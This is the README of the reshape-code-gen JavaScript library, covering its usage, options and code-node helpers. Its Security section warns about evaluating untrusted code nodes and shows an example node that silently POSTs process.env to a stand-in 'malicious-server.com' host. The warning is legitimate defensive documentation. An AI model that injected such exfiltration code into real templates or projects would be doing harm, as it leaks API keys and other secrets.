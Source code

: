 # Reshape Code Generator

[![Greenkeeper badge](https://badges.greenkeeper.io/reshape/code-gen.svg)](https://greenkeeper.io/)

[![npm](https://img.shields.io/npm/v/reshape-code-gen.svg?style=flat-square)](https://npmjs.com/package/reshape-code-gen)
[![tests](https://img.shields.io/travis/reshape/code-gen.svg?style=flat-square)](https://travis-ci.org/reshape/code-gen?branch=master)
[![dependencies](https://img.shields.io/david/reshape/code-gen.svg?style=flat-square)](https://david-dm.org/reshape/code-gen)
[![coverage](https://img.shields.io/coveralls/reshape/code-gen.svg?style=flat-square)](https://coveralls.io/r/reshape/code-gen?branch=master)

Convert a Reshape AST into a Javascript function

> **Note:** This project is in early development, and versioning is a little different. [Read this](http://markup.im/#q4_cRZ1Q) for more details.

### Installation

`npm install reshape-code-gen -S`

> **Note:** This project is compatible with node v6+ only

### Usage

Usage is very straightforward. Just require the library and pass it a reshape AST, and it will return a function as a string. When you call the function, it will return the resulting html as a string.

```js
const generate = require('reshape-code-gen')

const tpl = generate([
  { type: 'string', content: 'hello ', line: 1, col: 1 },
  { type: 'code', value: 'planet', line: 1, col: 7 }
], {/* options */})

tpl({ planet: 'world' }) // 'hello world'
```

### Options

| Name | Description | Default |
| ---- | ----------- | ------- |
| **selfClosing** | style for handling self-closing tags. can be `slash` (`<br />`), `tag` (`<br></br>`), or `close` (`<br>`) | `close` |
| **runtimeName** | custom name for the runtime object | `__runtime` |
| **returnString** | gives back a string instead of a function | `false` |
| **scopedLocals** | use `locals.foo` instead of `foo` in code nodes. this will speed up compile time, but be less pretty | `false`

### Code Block Helpers

Within the `content` of a `code` node, there are two special helpers that can be used:

#### `__nodes`

A helper that can be used inside of a `code` node's content in order to inject an already-generated AST. For example:

```js
{
  type: 'code',
  content: 'foo === "bar" ? __nodes[0] : __nodes[1]',
  nodes: [
    { type: 'text', content: 'truth' },
    { type: 'text', content: 'lies' }
  ]
}
```

The `__nodes` helper is an array, and you can use the `nodes` property to hold on to values. Values can be a single node or a full tree, they will be evaluated, and the result will be substituted in where the `__nodes` marker is.

####  `__runtime`

This helper can be used to access any functions on the runtime object. It will work under the same name whether the user has changed the runtime name via the options or not. For example:

```js
{
  type: 'code',
  content: '__runtime.escape(foo)'
}
```

### Security

Please note that this library produces a function as its output that could be influenced by user input and will most likely run inside your application environment. While the default output is evaluated in a [sandbox](https://nodejs.org/api/vm.html), when the function is executed it will have full access to any part of your code's environment, as all functions do.

Chances are that any `code` nodes in your templates are your own code, probably for evaluating a local variable. However, if any type of outside user input is accepted and evaluated as a `code` node, or if a malicious plugin is being used, you have a serious security vulnerability on your hands. This is especially the case when using the `outputString` option and executing templates client-side. Keep in mind that it is also possible for plugins to contain malicious code, so be sure that you trust and have evaluated the source of any plugins you are using.

Here's an example of how a `code` node could be used to compromise your secure information:

```js
{
  type: 'code',
  content: `
    (function () {
      const http = require(\'http\')
      const req = http.request({
        hostname: 'http://malicious-server.com',
        method: 'POST',
        headers: { 'Content-Type': 'application/json' }
      })
      req.write(JSON.stringify(process.env))
      req.end()
      return foo
    })()
  `
}
```

In this example, the code node will return `foo` from your local variables as if all is well, but in the background will send the contents of your environment, which often includes private API keys and such, to a malicious server. This example would work in node, but it would also be simple to add a version that would work in the browser, or even both, with an environment check. And this is a very tame example as well, arbitrarily injected code could easily be used to get or delete your database's contents, make financial transactions, conduct actions as a logged-in user, etc.

While a situation like this is unlikely to happen, and all core plugins protect against it as much as possible, it is still something to keep in mind. _Especially_ if there is any user input inserted into your templates that could be potentially evaluated as code and not as a string.

### License & Contributing

- Details on the license [can be found here](LICENSE.md)
- Details on running tests and contributing [can be found here](contributing.md)
